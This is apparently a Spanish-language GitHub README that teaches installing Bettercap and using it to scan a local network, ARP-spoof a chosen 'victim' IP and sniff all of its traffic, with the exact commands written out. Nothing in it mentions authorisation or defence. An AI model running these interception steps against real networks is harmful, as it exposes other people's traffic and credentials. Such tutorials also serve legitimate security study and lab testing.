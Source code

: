# Análisis con Bettercap
<br>

<p align="center">
<img src="./Img/logo.jpg">
</p>

<br>

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

<br>

## Instalación

```
sudo apt-get install build-essential ruby-dev libpcap-dev

apt-get update

apt-get install bettercap
```

<br>

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podmeos observar son las IP de nuestra red local.

<br>

![Informatica](Img/IP.jpg)

<br>

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár.

```
set arp.spoof targets 192.168.1.23

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de la IP víctima.

<br>

![Informatica](Img/trafico.png)

